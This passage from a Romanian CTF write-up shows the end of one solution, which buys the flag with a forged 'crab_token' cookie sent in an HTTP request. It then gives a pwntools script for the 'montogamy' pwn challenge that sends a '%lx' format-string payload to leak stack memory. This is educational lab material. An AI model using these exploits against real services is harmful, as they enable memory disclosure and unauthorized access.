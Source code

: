 3. Dependențe necesare în `Cargo.toml`:

```toml
base64 = "0.22.1"
chacha20poly1305 = "0.10.1"
hex = "0.4.3"
lazy_static = "1.5.0"
serde = { version = "1.0", features = ["derive"] }
serde_json = "1.0.125"
sha2 = "0.10.8"
smcrypto = "0.3.1"
```

4. Folosim cookie-ul generat pentru a cumpăra flag-ul:
```http
GET /buy?id=6 HTTP/1.1
Host: 0.0.0.0:1337
Cookie: crab_token=<token-ul generat>
Connection: keep-alive
```

**Flag:** `OSC{fake_flag}`

## montogamy (Pwn)

**Descriere:**
```
E prima data cand ai un contact cu o proba de pwn? Acest exercitiu s-ar putea sa fie pentru tine.

PS: Acest serviciu merge cu netcat.
```

Această provocare implică o vulnerabilitate de tip format string într-un program. Exploatăm această vulnerabilitate pentru a extrage informații din memoria programului.

**Soluție:**
```python
from pwn import *

#context.log_level = 'debug'
context.arch = 'amd64'

ip = "?"  # IP-ul serverului
port = "?"  # Portul serverului

r = remote(ip, port)

def main():
    r.recvuntil('Enter your input: ')
    # Format string printf pentru a prelua date din stivă
    payload = b'%lx' * 100
    r.sendline(payload)
    msg = r.recvall().strip().split(b'\n')[-1]
    if msg.startswith(b"b'") and msg.endswith(b"'"):
        msg = msg[2:-1]
    msg_str = msg.decode()
    flag_hex = ""
    
    # Convertim șirul hexadecimal în caractere
    for i in range(0, len(msg_str), 2):
        try:
            char = bytes.fromhex(msg_str[i:i+2]).decode('ascii')
            flag_hex += char
        except:
            flag_hex += '.'
    print(flag_hex)

```